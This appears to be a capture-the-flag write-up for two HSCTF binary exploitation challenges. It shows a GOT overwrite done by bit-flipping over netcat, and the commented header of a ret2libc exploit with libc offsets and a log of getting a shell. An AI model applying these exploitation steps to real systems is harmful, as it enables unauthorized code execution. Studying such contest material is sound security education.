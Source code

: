 ## bit

We want to overwrite the global offset table entry for `exit` with the address of `flag`.

```
>>> x/wx 0x804a01c
0x804a01c <exit@got.plt>:	0x080484f6

$ nc pwn.hsctf.com 4444
Welcome to the bit.

No nonsense, just pwn this binary. You have 4 tries. Live up to kmh's expectations, and get the flag.

Give me the address of the byte: 0804a01c
Give me the index of the bit: 4
Took care of 0804a01c at offset 4 for ya.

Here's your new byte: 80484e6
Give me the address of the byte: 0804a01c
Give me the index of the bit: 6
Took care of 0804a01c at offset 6 for ya.

Here's your new byte: 80484a6
Give me the address of the byte: 0804a01d
Give me the index of the bit: 1
Took care of 0804a01d at offset 1 for ya.

Here's your new byte: 70080486
Give me the address of the byte: 0804a020
Give me the index of the bit: 1
Took care of 0804a020 at offset 1 for ya.

Here's your new byte: f7e0df72
Well, at least you tried.
[🛐] pwn gods like you deserve this: hsctf{flippin_pwn_g0d}
```

## storytime

```python
#!/usr/bin/python2

#
# $ ./find write 2b0
# ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
# $ ./dump libc6_2.23-0ubuntu10_amd64
# offset___libc_start_main_ret = 0x20830
# offset_system = 0x0000000000045390
# offset_dup2 = 0x00000000000f7970
# offset_read = 0x00000000000f7250
# offset_write = 0x00000000000f72b0
# offset_str_bin_sh = 0x18cd57
#
# $ python get.py
# [+] Opening connection to pwn.hsctf.com on port 3333: Done
# [*] write @ 0x7fc42eb6c2b0
# [*] Switching to interactive mode
# $ ls
# bin
# dev
# flag
# lib
# lib32
```